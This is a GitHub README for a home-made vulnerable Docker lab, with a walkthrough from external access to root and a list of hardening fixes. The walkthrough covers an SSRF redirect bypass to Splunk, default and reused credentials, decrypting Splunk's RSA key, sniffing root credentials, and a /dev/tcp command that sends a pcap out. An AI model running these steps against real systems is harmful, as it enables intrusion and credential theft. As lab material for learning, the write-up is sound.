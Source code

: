 # Attack-The-Box

I've played plenty of HackTheBox and it's a great way to get to know your way around different operating systems and to learn about and interact with new technologies you might not have had the chance to otherwise. I was always amazed by level of complexity and detail that goes into some of the machines so I felt the learning experience in making a vulnerable machine must be a level up entirely from playing them. As a result I made a network of a couple docker containers where a user can go from external access to root inside a container.

# Machine Summary

Running `start.sh` launches `docker-compose` to create a node app at `172.18.0.2` and a splunk instance at `172.18.0.3`. The script sets the iptables rule `iptables -A OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` which has the effect of simulating a publically exposed web app with the splunk instance in a private network. (I couldn't find a way to isolate the splunk container from the host using docker networking as the host always gets assigned as the default gateway on any docker network I defined. I did have the idea to add the node and splunk containers to a driver: none network

The web app is the SSRF app from my `Vulnerable-Web-App` repo. We can leverage the SSRF to make requests to the splunk instance even though the app backend filters out private addresses from the `webhookURL` input. If we stand up a php server and a script redirecting to the splunk container, we can reach the endpoint `172.18.0.3:8089/services/authentication/users` and have this page sent to a netcat listener at the specified `payloadURL`. From this we can see an `admin2` user.

Knowing weak credentials `admin:user` were in use, we can try an authenticate with these over `ssh` to the web app container which works. From here we could try and pivot to the `splunk` container with `ssh`, hoping for credential re-use but this doesn't work. Looking around the filesystem we can read admin's `.bash_history` which reveals a mistake in a `sudo -u command which exposes `admin2's` password.

We find we can pivot to the splunk container with the found credentials over `ssh`.

Being a splunk admin in the container, `admin2` has sudo privileges to list and read files in `/opt/splunk`. We can use this to read configuration files which reveal an encrypted RSA private key used to encrypt traffic to the splunk management service on port 8089, as well as the `sslPassword` used to encrypt the RSA key. We can use `openssl` to decrypt the key. `admin2` also has sudo privileges to run `tcpdump` on the loopback interface- presumably for troubleshooting purposes. 

We can upload `pspy64` to find a root owned cron running each minute, called `health_check.pl`. This script sounds like it could be generating traffic so we can use tcpdump to capture packets and save it to a `pcap`. We can exfil the `pcap` to our attacking box along with the RSA private key and use `tshark` to decrypt the traffic if the key exchange isn't Diffie-Hellman based. Decrypting the traffic reveals requests to `127.0.0.1:8089/services` using basic authentication, so the username and password appear base64 encoded in the `Authorization` header. Now we have essentially cleartext root credentials on the box so we can `su -` to root!

# Speedrun

<img src="images/health_check.png">

Skipping host and service enumeration (it's boring and the same every time), I'll visit the site at `172.18.0.2:5000`. Essentially it says to set a `webhookURL` and a `payloadURL`, and the server will make a request out to the `webhookURL` and send the results to the `payloadURL`. Trying any private addresses or obfuscation/encoding thereof returns a `host not allowed` message so we'll need another approach. A common trick is to get the server to reach out to you and redirect it on the desired target, bypassing any serverside filtering. This can be done in `php` with the `header()` function and the `Location:` HTTP header.

<img src="images/re.png">

I'll make a file `re.php` and host it on my box with `php -S 0.0.0.0:8001` to start a basic `php` server serving on all interfaces at port 8001. `re.php` uses the `header()` function to pass the request into the 'private' network by specifying  `Location: whatever`. In this case, 'whatever' is the `/services/authentication/users` endpoint on the management API at port 8089. This endpoint requires authorization, but Splunk <7.1.0 allows remote login with default credentials which can be easily found to be `admin:changeme`. Further, the endpoint uses basic authorization which means the credentials are sent base64 encoded in the `Authorization:` header, alternatively, we can specify the credentials in the URL like we can do with FTP. 

<img src="images/res.png">

Starting a netcat listener at the `host:port` shown in the first image, we receive the contents of the Splunk management API endpoint specified above. 

<img src="images/user.png">

I copied the relevant portion to a file and prettified the output with `jq`. We can see an `admin2` user.

<img src="images/access.png">

Doing a light password spray against known users on the web container, we find the password `changeme` has been reused for `admin`. We can simply `ssh` into the box now.

<img src="images/splunk_access.png">

A good first place to look for creds is always `.bash_history`. In this case we see an erroneous `sudo` command which potentially exposes `admin2's` credentials. We can try pivot into the Splunk container with `ssh` and `admin2:changeme2`. Running `id` shows we're in the `sudo` group, and we know the user's password. 

<img src="images/sudo.png">

Running `sudo -l`, we find we can run `tcpdump` on localhost and can list directories and read any file in `/opt/splunk`. The file `opt/splunk/etc/auth/server.pem` contains the certificate and encrypted RSA private keys generated when splunk is first installed on the machine. We may be able to use this to decrypt HTTPS traffic between clients the server.

<img src="images/sslpass.png">

The password used to encrypt the above RSA key is static across splunk instances however and is in cleartext in `/opt/splunk/etc/system/default/server.pem`. 

<img src="images/traffic.png">

With my other `sudo` privilege, I'll run `tcpdump` for a short while to see what traffic I can capture, and send the output to `output.pcap`. I'll exfil this file by running `nc -nvlp 7777 > output.pcap` on my box and `cat output.pcap > /dev/tcp/172.18.0.1/7777` on the victim.

<img src="images/rootcreds.png">

I'll copy the key over to my box in a file `enc.pem` and run `openssl rsa -in enc.pem -out dec.pem` which will prompt me for the `sslPassword` and write the decrypted key to `dec.pem`. Now I'll use `tshark` to try and decrypt the traffic using the plaintext RSA private key. 'Grepping' for known headers, we can spot the basic authorization header which reveals root's credentials. Run `su -` and its job done.



Finally run `sudo iptables -D OUTPUT -s 172.18.0.1 -d 172.18.0.3 -j DROP` to delete the iptables rule set in `start.sh`.

# Hardening Strategies
- Network segmentation to prevent SSRF. Does the web app need to be able to talk to splunk? Perhaps because the app  may forward logs to the splunk deployment server on port 9097, in which case reserve a port on the web app container to send logs from and firewall off other ports. If they don't need to talk at all, could segment with VLANs.
- Configure the `node` app not to follow redirects by specifying `{ maxRedirects: 0 }` in `axios.get()`
- Use PAM to enable a strong password policy for SSH. Edit `minlength, minclass, maxrepeat` in `/etc/pam.d/common-password`.
- Disable `ssh` password authentication with the line `PubkeyAuthentication yes` in `/etc/ssh/sshd_config`.
- Better yet disable `ssh` if not needed with `sudo systemcl disable ssh`.
- Try and avoid password reuse by educating users, centralized authentication e.g. Kerberos, LDAP, or enforce MFA.
- Keep software patched and up to date. Versions of splunk >7.1.0 don't allow remote login using default credentials, and force the user to provide a new password on first local login.
- Use the principle of least privilege. Does `admin2` need to be able to read *every* file in `/opt/splunk`, do they *need* to be able to capture traffic on localhost, if yes can they make do with only certain ips/ports/protocols.
- Weak crypto. The perl script in the root cron specified a weak cipher suite `AES128-SHA256`. A DH based key exchange offers perfect forward secrecy, so knowledge of long term secrets like the server's private key isn't enough to decrypt the traffic.

Any one of the above hardening techniques has the potential to completely halt the attack flow from proceding to the next step. This is why defense in depth is such a powerful concept.
